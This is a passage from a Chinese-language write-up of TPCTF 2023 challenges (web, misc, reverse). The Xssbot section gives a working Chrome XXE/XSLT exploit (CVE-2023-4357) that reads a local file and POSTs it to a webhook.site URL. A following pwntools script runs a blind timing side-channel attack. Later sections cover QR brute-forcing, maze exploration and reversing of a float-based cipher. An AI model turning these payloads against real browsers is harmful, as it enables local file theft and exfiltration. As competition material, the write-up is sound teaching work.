# 2023 TPCTF WriteUps

# Web

## Xssbot

最近 chrome 的 XXE 漏洞

参考 [https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE](https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE div [
  <!ENTITY flag SYSTEM "file:///flag">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')"/>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <p class="flag">&flag;</p>
      <script>
        var data = document.querySelector(".flag").textContent;
        fetch("https://webhook.site/2a2fe3da-421e-4c4b-a7c2-857161788fb9", {
        method: 'POST',
        headers: {
            'Content-Type': 'text/plain',
        },
        body: data
        })
      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```

TPCTF{10ca1_file_re4d_via_CVE_1n_Libxs1t}

## Xssbot but not Internet

不出网，使用 `link` 标签加载造成延时，判断如果超时就说明 flag 的某个字符是正确的，如此盲注

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE div [
  <!ENTITY flag SYSTEM "file:///flag">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')"/>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <p class="flag">&flag;</p>
      <script>
        var data = document.querySelector(".flag").textContent;
        var linkElement = document.createElement("link");
        linkElement.rel = "stylesheet";
        linkElement.href = "style.css";
        if(data[0] > 'S'){
            while(true) {
                document.querySelector("body").appendChild(linkElement); 
            }
        }
      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```

exp.py

```python
from pwn import *
import warnings
warnings.filterwarnings("ignore")

context.log_level = 'error'

templat = '''<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE div [
  <!ENTITY flag SYSTEM "file:///flag">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('')"/>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <p class="flag">&flag;</p>
      <script>
        var data = document.querySelector(".flag").textContent;
        var linkElement = document.createElement("link");
        linkElement.rel = "stylesheet";
        linkElement.href = "style.css";
        if(data[<<index>>] > '<<code>>'){
            while(true) {
                document.querySelector("body").appendChild(linkElement); 
            }
        }
      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
EOF
'''

def log(info:str):
    print(info)
    with open('./log.txt', 'at') as f:
        f.write(info+"\n")

def side_channel(payload: str):
    conn = remote('202.112.238.82', 23379)
    conn.recvuntil("File name: ")
    conn.sendline("a.svg")
    conn.recvuntil("Input your file:")
    conn.recvuntil("\n")
    conn.sendline(payload)
    conn.recvuntil('website...')
    try:
        conn.recvuntil('bye', timeout=20000)
    except:
        conn.close()
        return True
    conn.close()
    return False

def bf_bycode(index: int, code: int):
    payload = templat.replace('<<index>>', str(index)).replace('<<code>>', '\\x'+hex(code)[2:])
    status = side_channel(payload)
    log(str(index)+" "+hex(code)[2:]+" "+str(status))
    return status

def bf_byindex(index: int):
    l , r = 0x10, 0x7F
    while( l < r ):
        code = ( l + r ) // 2
        if bf_bycode(index, code):
            l = code + 1
        else:
            r = code
    log(chr(r))
    return r

def main():
    for i in range(60):
        bf_byindex(i)

def test():
    assert(bf_bycode(0, 0x10) == True)
    assert(bf_bycode(0, 0x7F) == False)

test()
main()
```

TPCTF{ea5y5C4}

# Misc

## SIGNIN: Ingress

一个 rot13，运气很好，直接能看到 flag

## Wait for first blood

出一血后就不更新了，但是缺少的点只有一百多个了，直接随机爆破扫描

```python
#######_##_####_#___?#__?#_#_?_#____#_#######
#_____#__?#_?#_##_###__#_#_#___###_#__#_____#
#_###_#___?__##?_###_#_#?_?_##_____#__#_###_#
#_###_#_####__?#_#_#__#_?#___#?#??_##_#_###_#
#_###_#__#?#######_?######__#____####_#_###_#
#_____#__?##?#_?____#___#__#_#___#____#_____#
#######_#_#_#_#_#_#_#_#_#_#_#_#_#_#_#_#######
_________#??#_###?#?#___#_#_#_#?##__?________
__#_###_###__#___#__######____#___#_?#___#__#
#?###?__##_#_?##?__?#_#_?##_?###?#___####__#_
?__??_#?#_##?##__#__#_##_?_#?_?###_?#__#?#_##
###_?#_#?_#_?#??_##_#_#?_#_____#_#__#_??##_#?
#_#__###?_###?__#__#__###?_______##_#___#_##_
#__#??__#__?__#__#_?#??_##???#_?__?#_##?##_#_
###_#_#?##________#?__#_#___#__#__#_#_###__?_
___##?_?__#_#_#__##_#?###_?##?###_#__#?__?###
?##??###______#___?__?###__##_###_#__##?__#?_
?__##?____#_##__###_#_##___?#___#?##__#___?__
__#___#?#_#__#__?_#__??#?___#_##____#?##__#?#
#____#___?___###_#?####_##____##__#####?__###
?########?#_#_####?######_____#?#_#######?#__
##??#___##_?#_#?#?#?#___###_#_?##_###___#_###
#_###_#_##__#___#_?##_#_#??##_#_#_#_#_#_#____
____#___#__#?_#_#_###___#__#_?_?#___#___##_#?
___######___#_#_?#?######__#_#___?__#####___#
####_____##_#_______####_?_?#_?###_###_##__?#
#_#_?_###??###___??#____?_##___##___##_#_#___
#?__##____#__?##_?_#__#?_###_#_#__#?_#_###_#_
?__####____#####______#___#_##_??#?_###_?_##_
?#__#__#_?##?##__#__?_#__#_##_#####_#####_?#_
##_#_###___?#_#_##___#_#_#_#_#_##?#_###__?##_
#_?###___#?____????_?#####__#?_#_##_###_##_##
###__##__?#??__#____###?__#__#_#_?_###__#__?#
#_#__#__##_#_?_#?#_#__##?#?_##_####_?#__##___
____#_##__###__?##__##_#___##_###_?_#?#___##_
_####__#_____#__#_#____#_#___#_#__#?_#?___?__
#__##_###__??#_#_#__######_####___#######_#__
________#_##_###_#?_#___#_?###_#?__##___#_#__
#######___###_##?_###_#_####__#___###_#_####_
#_____#_#_#_###__?_##___#____###____#___##___
#_###_#_#?#__#__##__######_####_#___#####_#__
#_###_#___?##___?#_?#_#____??#_____#___##?_#_
#_###_#_#___###?##_##_#__#__####___##_#__#__#
#_____#__#####_###_#_#___#_?___##__##?_##??##
#######__##___#__###_#_###?_#_#_##_?__####?_#
```

```python
from PIL import Image
import pyzbar.pyzbar as pyzbar
import random

MAXN = 45
pics = [(0,0,0),(255,255,255)]

while(1):

    f = open("qr.txt","r").readlines()
    pic = Image.new("RGB",(MAXN,MAXN))
    for y in range(0,MAXN):
        for x in range(0,MAXN):
            if(f[y][x] == '#'):
                pic.putpixel([x,y],(0,0,0))
            elif(f[y][x] == '_'):
                pic.putpixel([x,y],(255,255,255))   
            elif(f[y][x] == '?'):
                pic.putpixel([x,y],random.choice(pics))   
    pic = pic.resize((450,450))
    barcodes = pyzbar.decode(pic)
    print(barcodes)
    for barcode in barcodes:
        barcodeDATA = barcode.data.decode("utf-8")
        print(barcodeDATA)
    if(len(barcodes) != 0):
        pic.save("flag.png")
        break
```




```python
HttPS://gist.giTHUB.COM/KONANO/eb6dd6b85937bf3651e8a65c1a9951bb
```



## NanoUniverse: flagments

可以用 `orcale` 的那个扫图，但是比赛时采用随机爆破 + 猜

```python
from pwn import *
import random

fw = open("1.log","wb")
dire = [b"W",b"A",b"S",b"D"]
while(1):
    try:
        io = remote("202.112.238.82", 13370)
        text = io.recvuntil(b"if you touch them.\n")
        fw.write(text)
        while(1):
            text = io.recvuntil("> ")
            fw.write(text)
            d = random.choice(dire)
            io.sendline(d)
            fw.write(d)
            fw.write(text)
            if(b"flag" in text):
                print(text)
    except:
        continue
```

## NanoUniverse: oracle

深搜探图

地图中存在一些特殊的位置，只能以特定的路线进入，记录一下

（这个脚本存在问题，很多点位搜索不到，但是基本能做了）

```python
from pwn import *
import warnings
from PIL import Image


def save(filename):
    visited = []
    temp = eval(open("from_top_visited.txt", "r").read())
    temp += eval(open("from_bottom_visited.txt", "r").read())
    temp += eval(open("from_left_visited.txt", "r").read())
    temp += eval(open("from_right_visited.txt", "r").read())
    for i in temp:
        if i not in visited:
            visited.append(i)
    random = eval(open("random.txt", "r").read())
    wall = eval(open("wall.txt", "r").read())
    flag = eval(open("flags.txt", "r").read())

    file = Image.new("RGBA", (600, 600))

    for i in range(200):
        for j in range(200):
            center_x = j * 3 + 1
            center_y = i * 3 + 1
            if [j, i] in visited:
                if [j, i] not in random:
                    if [j, i] not in flag:
                        rgba = (255, 0, 0, 255)
                    else:
                        rgba = (255, 255, 0, 255)
                else:
                    rgba = (0, 0, 255, 255)
            else:
                rgba = (0, 0, 0, 0)
            file.putpixel((center_x - 1, center_y - 1), rgba)
            file.putpixel((center_x - 1, center_y), rgba)
            file.putpixel((center_x - 1, center_y + 1), rgba)
            file.putpixel((center_x, center_y - 1), rgba)
            file.putpixel((center_x, center_y), rgba)
            file.putpixel((center_x, center_y + 1), rgba)
            file.putpixel((center_x + 1, center_y - 1), rgba)
            file.putpixel((center_x + 1, center_y), rgba)
            file.putpixel((center_x + 1, center_y + 1), rgba)
    center_x = 100 * 3 + 1
    center_y = 100 * 3 + 1
    file.putpixel((center_x - 1, center_y - 1), (0, 255, 0, 255))
    file.putpixel((center_x - 1, center_y), (0, 255, 0, 255))
    file.putpixel((center_x - 1, center_y + 1), (0, 255, 0, 255))
    file.putpixel((center_x, center_y - 1), (0, 255, 0, 255))
    file.putpixel((center_x, center_y), (0, 255, 0, 255))
    file.putpixel((center_x, center_y + 1), (0, 255, 0, 255))
    file.putpixel((center_x + 1, center_y - 1), (0, 255, 0, 255))
    file.putpixel((center_x + 1, center_y), (0, 255, 0, 255))
    file.putpixel((center_x + 1, center_y + 1), (0, 255, 0, 255))

    for i in range(200):
        for j in range(200):
            center_x = j * 3 + 1
            center_y = i * 3 + 1
            ds = wall[j][i]
            rgba = (0, 0, 0, 255)
            if ds[0] == 1:
                file.putpixel((center_x - 1, center_y - 1), rgba)
                file.putpixel((center_x, center_y - 1), rgba)
                file.putpixel((center_x + 1, center_y - 1), rgba)
                # file.putpixel((center_x - 1, center_y - 2), rgba)
                # file.putpixel((center_x, center_y - 2), rgba)
                # file.putpixel((center_x + 1, center_y - 2), rgba)
            if ds[1] == 1:
                file.putpixel((center_x - 1, center_y + 1), rgba)
                file.putpixel((center_x, center_y + 1), rgba)
                file.putpixel((center_x + 1, center_y + 1), rgba)
                # file.putpixel((center_x - 1, center_y + 2), rgba)
                # file.putpixel((center_x, center_y + 2), rgba)
                # file.putpixel((center_x + 1, center_y + 2), rgba)
            if ds[2] == 1:
                file.putpixel((center_x - 1, center_y - 1), rgba)
                file.putpixel((center_x - 1, center_y), rgba)
                file.putpixel((center_x - 1, center_y + 1), rgba)
                # file.putpixel((center_x - 2, center_y - 1), rgba)
                # file.putpixel((center_x - 2, center_y), rgba)
                # file.putpixel((center_x - 2, center_y + 1), rgba)
            if ds[3] == 1:
                file.putpixel((center_x + 1, center_y - 1), rgba)
                file.putpixel((center_x + 1, center_y), rgba)
                file.putpixel((center_x + 1, center_y + 1), rgba)
                # file.putpixel((center_x + 2, center_y - 1), rgba)
                # file.putpixel((center_x + 2, center_y), rgba)
                # file.putpixel((center_x + 2, center_y + 1), rgba)

    file.save(filename)

warnings.filterwarnings("ignore")

context.log_level = 'error'
# 加载缓存
try:
    from_top_visited = eval(open("from_top_visited.txt", "r").read())
    from_bottom_visited = eval(open("from_bottom_visited.txt", "r").read())
    from_left_visited = eval(open("from_left_visited.txt", "r").read())
    from_right_visited = eval(open("from_right_visited.txt", "r").read())
    stack = eval(open("stack.txt", "r").read())
    wall = eval(open("wall.txt", "r").read())
    paths = eval(open("paths.txt", "r").read())
    random = eval(open("random.txt", "r").read())
    flags = eval(open("flags.txt", "r").read())
except Exception as e:
    print(e)
    from_left_visited = []
    from_right_visited = []
    from_top_visited = []
    from_bottom_visited = []
    stack = [[100, 100]]
    # 上0 下1 左2 右3
    wall = [[[0, 0, 0, 0] for i in range(200)] for j in range(200)]
    paths = [[b"" for _ in range(200)] for _ in range(200)]
    random = []
    flags = []

directions = [(0, -1), (0, 1), (-1, 0), (1, 0)]
direct = [b"w", b"s", b"a", b"d"]
visited = [from_bottom_visited, from_top_visited, from_right_visited, from_left_visited]

while stack:
    x, y = stack.pop()
    # visited.append([x, y])
    path = bytes(paths[x][y])
    for d in range(len(directions)):
        new_x = x + directions[d][0]
        new_y = y + directions[d][1]
        if [new_x, new_y] not in visited[d] and wall[x][y][d] == 0 and [new_x, new_y] not in random:
            r = remote("202.112.238.82", 13370)
            r.recvuntil(b"> ")
            r.sendline(path)
            r.recvuntil(b"> ")
            r.sendline(direct[d])
            res = r.recvuntil(b"> ").decode()
            p = path + direct[d]
            if "flag" in res or "Nothing" in res:
                stack.append([new_x, new_y])
                visited[d].append([new_x, new_y])
                paths[new_x][new_y] = p
                if "flag" in res:
                    flags.append([new_x, new_y])
            if "wall" in res:
                visited[d].append([new_x, new_y])
                wall[x][y][d] = 1
            if "random" in res:
                visited[d].append([new_x, new_y])
                random.append([new_x, new_y])
                paths[new_x][new_y] = p
            r.close()
    print("总探索次数: ", sum([len(i) for i in visited]))
    # 记录进程，防止中途爆炸
    open("from_top_visited.txt", "w").write(str(from_top_visited))
    open("from_bottom_visited.txt", "w").write(str(from_bottom_visited))
    open("from_left_visited.txt", "w").write(str(from_left_visited))
    open("from_right_visited.txt", "w").write(str(from_right_visited))
    open("wall.txt", "w").write(str(wall))
    open("random.txt", "w").write(str(random))
    open("paths.txt", "w").write(str(paths))
    open("stack.txt", "w").write(str(stack))
    open("flags.txt", "w").write(str(flags))
save("map.png")
```



根据探到的特殊点位的特征筛选出坐标，然后画图

```python
unknown = []
wall = eval(open("wall.txt", "r").read())

for i in range(1, 199):
    for j in range(1, 199):
        if wall[j][i][0] == 1 and wall[j][i - 1][1] == 0:
            unknown.append([(j, i), (j, i - 1)])
        if wall[j][i][1] == 1 and wall[j][i + 1][0] == 0:
            unknown.append([(j, i), (j, i + 1)])
        if wall[j][i][2] == 1 and wall[j - 1][i][3] == 0:
            unknown.append([(j, i), (j - 1, i)])
        if wall[j][i][3] == 1 and wall[j + 1][i][2] == 0:
            unknown.append([(j, i), (j + 1, i)])

a = [i[0] for i in unknown]
file = Image.new("RGB", (200, 200))
for i in range(200):
    for j in range(200):
        if (j, i) in a:
            file.putpixel((j, i), (0, 0, 0))
        else:
            file.putpixel((j, i), (255, 255, 255))
file.save("unknown2.png")
```



连蒙带猜 +hint

## Normalize

非预期，在 url 编码的时候会对相对路径进行解析，异或为 `../` 即可露出后续的内容

## 小 T 的日常

注意不是 JR 线，五分钟路程，然后硬试

# Reverse

## Maze

观察 PyNumber_Xor 的两个 PyLong 参数，发现一个是输入，另一个密钥和下面的 compare 的参数异或以后正好是 flag 的第一个字符 T，遂猜测为简单异或，把 list 类型的密文 dump 出来，密钥是每次调用函数生成的，这里可以把 compare patch 一下使得比较失败也不会结束，然后在 xor 的地方断下手动提取密钥。将密钥数组和密文异或得到明文。

## Funky puzzle

ELF64

程序逻辑很简单



输入、加密、比较

加密部分有三个函数，经过测试只有中间的会扩散输入值，所以先做这个。

将输入值（32bytes）拆分到 256bits，大端序且位反转。第二个加密函数经过四轮近似的操作，每组 64bits 分块。每轮操作中循环 32 次，每次对 8bits 的分块做 8 轮加密。

关键在下面的函数



看着有一大堆浮点数操作但其实是位操作，而且浮点数只有 `0` 和 `-0` 两种数值。这个就不能指望 IDA 了



经过测试发现指令有以下性质

```python
subss
i1 i2 out
 0  0  0
 0 -0  0
-0  0 -0
-0 -0  0


xorps
i1 i2 out
 0 -0 -0
-0 -0  0
```

随后，用 `1` 代表 `-0`，则可以表示浮点数减法为

```python
def fsub(a, b):
    return max(0, a - b)
```

异或操作可直接用异或操作符。

将指令写下来并且手动优化。

```python
def mix1(out, block, exv):
    x2 = block[0]
    x4 = exv[0]
    x0 = gv1
    x5 = gv2
    x1 = x2
    x3 = x4
    x1 = fsub(x1, x4)
    x3 = fsub(x3, x2)
    x6 = x5
    x2 ^= x0
    x2 = fsub(x2, x4)
    x1 ^= x0
    x1 = fsub(x1, x3)
    x6 = fsub(x6, x1)
    x3 = x1
    x1 ^= x0
    x3 = fsub(x3, x5)
    x1 = fsub(x1, x5)
    x3 ^= x0
    x1 ^= x0
    x1 = fsub(x1, x2)
    x3 = fsub(x3, x6)
    ret = x1
    out[0] = x3

    x3 = block[1]
    x5 = exv[1]
    x2 = x3
    x4 = x5
    x2 = fsub(x2, x5)
    x4 = fsub(x4, x3)
    x3 ^= x0
    x3 = fsub(x3, x5)
    x2 ^= x0
    x2 = fsub(x2, x4)
    x6 = fsub(x6, x2)
    x4 = x2
    x2 ^= x0
    x4 = fsub(x4, x1)
    x2 = fsub(x2, x1)
    x4 ^= x0
    x2 ^= x0
    x2 = fsub(x2, x3)
    x4 = fsub(x4, x6)
    ret = x2
    x6 = x2
    out[1] = x4

    return ret
# 手动优化后，结构更清晰。
def mix1_simple(out, block, exv):
    x2 = block[0]
    x4 = exv[0]
    x0 = gv1
    x5 = gv2
    x6 = gv2
    x1 = fsub(fsub(x2, x4) ^ x0, fsub(x4, x2))
    x6 = fsub(x6, x1)
    x3 = fsub(x1, x5)
    x1 = fsub(x1 ^ x0, x5)
    x1 = fsub(x1 ^ x0, fsub(x2 ^ x0, x4))
    x3 = fsub(x3 ^ x0, x6)
    ret = x1
    out[0] = x3

    x3 = block[1]
    x5 = exv[1]
    x2 = fsub(fsub(x3, x5) ^ x0, fsub(x5, x3))
    x6 = fsub(x6, x2)
    x4 = fsub(x2, x1)
    x2 = fsub(x2 ^ x0, x1)
    x2 = fsub(x2 ^ x0, fsub(x3 ^ x0, x5))
    x4 = fsub(x4 ^ x0, x6)
    ret = x2
    x6 = x2
    out[1] = x4

    return ret
```

可以看做函数做了 8 轮类似的操作。除了输入的两个 bits 之外还有两个参数，分别用 ret 和 x6 命名。ret 表示上一轮操作的另一个结果，x6 则是一个迭代的值。

测试函数的性质

```python
gv1 = 1 # dword_5190
gv2 = 1 # dword_7478

def fsub(a, b):
    return max(0, a - b)

def mix1_test(out, block, exv, last1, last2):
    x0 = gv1
    x1 = last1[0]
    x6 = last2[0]

    x3 = block[0]
    x5 = exv[0]
    x2 = fsub(fsub(x3, x5) ^ x0, fsub(x5, x3))
    x6 = fsub(x6, x2)
    x4 = fsub(x2, x1)
    x2 = fsub(x2 ^ x0, x1)
    x2 = fsub(x2 ^ x0, fsub(x3 ^ x0, x5))
    x4 = fsub(x4 ^ x0, x6)
    ret = x2
    x6 = x2
    out[0] = x4

    last1[0] = ret
    last2[0] = x6

def testout():
    out = [-1]
    for i in range(16):
        block = [(i & 0x8) >> 3]
        exv = [(i & 0x4) >> 2]
        last1 = [(i & 2) >> 1]
        last2 = [i & 1]
        o1 = last1[0]
        o2 = last2[0]
        mix1_test(out, block, exv, last1, last2)
        print(out, block, exv, o1, o2, last1, last2)
testout()
'''
[0] [0] [0] 0 0 [0] [0]
[0] [0] [0] 0 1 [0] [0]
[1] [0] [0] 1 0 [0] [0]
[1] [0] [0] 1 1 [0] [0]
[1] [0] [1] 0 0 [0] [0]
[0] [0] [1] 0 1 [0] [0]
[1] [0] [1] 1 0 [1] [1]
[0] [0] [1] 1 1 [1] [1]
[1] [1] [0] 0 0 [0] [0]
[0] [1] [0] 0 1 [0] [0]
[1] [1] [0] 1 0 [1] [1]
[0] [1] [0] 1 1 [1] [1]
[0] [1] [1] 0 0 [1] [1]
[0] [1] [1] 0 1 [1] [1]
[1] [1] [1] 1 0 [1] [1]
[1] [1] [1] 1 1 [1] [1]
'''
```

发现 ret 和 x6 值总是相同，则将这两个合并为 t，简化表格

```python
'''
t 初始值为1
out block exv t t_out
[0] [0] [0] 0 [0]
[1] [0] [0] 1 [0]
[1] [0] [1] 0 [0]
[0] [0] [1] 1 [1]
[1] [1] [0] 0 [0]
[0] [1] [0] 1 [1]
[0] [1] [1] 0 [1]
[1] [1] [1] 1 [1]

每次变换
t out
0 a^b
1 !(a^b)

简化后
out = a^b^t
t = (!a)*b*t + a*b + a*t

'''
```

经过推理得出简化的函数

```python
def mix1_sp_ex(block, exv):
    t = 1
    res = []
    for i in range(len(block)):
        a = block[i]
        b = exv[i]
        res.append(a ^ b ^ t)
        t = ((not a) and b and t) or (a and b) or (a and t)
        t = 1 if t else 0
    return res

res = mix1_sp_ex([1,1,1,0,0,1,0,1], [0,0,1,0,0,1,1,0])
print(res)  # [0, 0, 1, 1, 0, 0, 0, 0]
```

之后调试跟踪函数，比较轻松写出加密过程。

```python
sbox0 = [  0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 
  0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76, 0xCA, 0x82, 0xC9, 0x7D, 
  0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 
  0x72, 0xC0, 0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 
  0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15, 0x04, 0xC7, 
  0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 
  0xEB, 0x27, 0xB2, 0x75, 0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 
  0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84, 
  0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 
  0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF, 0xD0, 0xEF, 0xAA, 0xFB, 
  0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 
  0x9F, 0xA8, 0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 
